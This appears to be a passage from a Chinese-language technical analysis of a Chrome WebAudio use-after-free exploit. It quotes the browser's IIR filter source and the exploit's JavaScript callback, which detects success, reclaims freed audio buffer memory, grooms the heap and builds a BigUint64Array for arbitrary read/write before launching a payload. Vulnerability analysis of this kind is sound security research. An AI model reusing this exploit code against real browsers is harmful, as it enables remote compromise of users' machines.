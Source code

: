 这次，利用代码通过函数getFrequencyResponse()来检查漏洞利用是否成功。该函数创建一个由奈奎斯特滤波器填充的频率数组，并且该操作的源数组用0填充。

```
void IIRDSPKernel::GetFrequencyResponse(int n_frequencies,
                                        const float* frequency_hz,
                                        float* mag_response,
                                        float* phase_response) `{`
...
  Vector&lt;float&gt; frequency(n_frequencies);
  double nyquist = this-&gt;Nyquist();
  // 将以Hz为单位的频率归一化到(0-&gt;1)
  // 1就等于奈奎斯特频率
  for (int k = 0; k &lt; n_frequencies; ++k)
    frequency[k] = frequency_hz[k] / nyquist;
...
```

如果结果数组包含非π的值，则表示利用成功。如果成功，利用代码将停止递归并执行函数finalUAFCallback以再次分配声道缓冲区并重新占有以前释放的内存。该函数还通过分配大小不同的各种对象并对堆进行碎片整理来修复堆，以防止可能发生的崩溃。利用代码还会创建BigUint64Array，稍后用于创建任意读/写原语。

```
async function finalUAFCallback() `{`
    for (let i = 0; i &lt; 256; i++) `{`
            floatArray.fill(0);

             iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);

            if (floatArray[0] != 3.1415927410125732) `{`
                await collectGargabe();

                audioBufferArray2 = [];

                for (let j = 0; j &lt; 80; j++)
                         audioBufferArray1.push(sharedAudioCtx.createBuffer(1, 2, 10000));

                iirFilters = new Array(1);
                     await collectGargabe();

                for (let j = 0; j &lt; 336; j++)
                        imageDataArray.push(new ImageData(1, 2));
                imageDataArray = new Array(10);
                await collectGargabe();

                for (let j = 0; j &lt; audioBufferArray1.length; j++) `{`
                        let auxArray = new BigUint64Array(audioBufferArray1[j].getChannelData(0).buffer);
                        if (auxArray[0] != BigInt(0)) `{`
                            kickPayload(auxArray);
                            return;
                        `}`
                     `}`

                return;
            `}`
    `}`
`}`
```
